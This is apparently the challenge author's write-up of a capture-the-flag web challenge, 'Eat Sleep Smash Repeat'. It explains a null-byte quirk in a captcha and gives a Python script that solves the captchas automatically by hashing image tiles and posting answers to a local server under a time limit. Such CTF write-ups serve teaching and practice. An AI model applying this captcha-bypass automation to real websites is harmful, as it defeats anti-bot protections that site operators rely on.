







# Eat Sleep Smash Repeat

I'm the author of this challenge. This is my thoughts on how to solve the challenge.



A captcha and a submit field.

Let's submit the captcha: `6\0wg`.



Maybe it was a `v` instead of `w`. After each fail the challenger understands something is wrong. If you notice clearly there is a nullbyte in the string...

What this challenge simulates is a shitty C library ported to PHP.

Submitting just the first number we move on to the next level:



After reaching level 5 we are presented with this screen:



Clicking flag retrieval we get a screen saying we should practice more.. What?



Obviously something is up. 

Let's try again, solving the first 5 levels but this time we click flag retrieval faster.



Notice how the title of the page changed from "Rookie" to "Worthy challenger".

What's new is the time limit... 

Time to fire up Python and automate this.



```python
import requests
import thread
from PIL import Image
from io import BytesIO
import hashlib
import time
import psutil

s = requests.Session() 

s.get("http://localhost:55352/")

mapping = []
mapping.append({
    'cd1992f946b28a968f4f814468607536': '1',
    '8fd08858070091aaacd6afc9c6df909f': '2',
    '66ee914964c0211046fd48ed245d40ba': '3',
    '6fe7a1bd69cde572ce1d1b9f04f78677': '4',
    '572a28f5bcb1f269d85e2934fce189df': '5',
    'd0c5dc424d4aecd08975c538e19a2fc2': '6',
    '06aafe9d840414ad573dd78680d1b041': '7',
    '43d88075ac9b4e16e074be315e501187': '8',
    '82aafc241c1f1be0ae61e3cfb46e209e': '9',
})

def get_captcha():
    captcha = s.get("http://localhost:55352/captcha.php")
    return Image.open(BytesIO(captcha.content))
def send_guess(guess):
    data = {
    'code': guess 
    }
    r = s.post("http://localhost:55352/", data=data)
    return r.text

def get_md5img(im):
    tilei = im.crop((0,0,10,30))
    hash_img = hashlib.md5(tilei.tobytes()).hexdigest()
    return hash_img


for i in range(150):
    im = get_captcha()
    hsum = get_md5img(im)
    if hsum in mapping[0]:
        guessed_number = mapping[0][hsum]
    else:
        im.show()
        break

    print "Extracted hash: " + hsum
    print "Guessing number: " + str(guessed_number)
    print send_guess(guessed_number)


time.sleep(9)

# hide image
for proc in psutil.process_iter():
    if proc.name() == "display":
        proc.kill()
```
